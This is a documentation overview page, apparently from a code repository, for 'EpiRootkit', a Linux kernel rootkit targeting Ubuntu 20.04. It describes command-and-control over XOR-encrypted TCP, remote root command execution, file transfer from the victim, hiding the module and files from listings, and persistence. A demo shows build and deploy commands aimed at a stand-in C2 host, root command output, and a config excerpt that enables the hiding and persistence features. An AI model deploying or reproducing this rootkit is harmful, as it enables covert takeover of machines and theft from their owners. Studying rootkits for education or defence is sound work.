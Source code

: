 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## Features

- **C2 Communication**: TCP connection with domain support and XOR encryption
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **XOR Encryption**: Simple, reliable 32-byte key encryption for all C2 traffic
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy with XOR encryption enabled
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit (all communication XOR encrypted)
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES, Encryption: XOR
```

## Architecture

### Core Components
- **Network Layer**: Connection management and DNS resolution
- **Command System**: Authentication and remote execution
- **Stealth Features**: Module and file hiding
- **Persistence**: Boot survival mechanisms

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Encryption**: XOR cipher with 32-byte hardcoded key (bulletproof reliability)
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication and XOR encryption
- **[XOR Encryption](./features/encryption.md)**: Simple, reliable encryption implementation
- **[DNS Resolution](./features/dns-resolution.md)**: Domain name resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


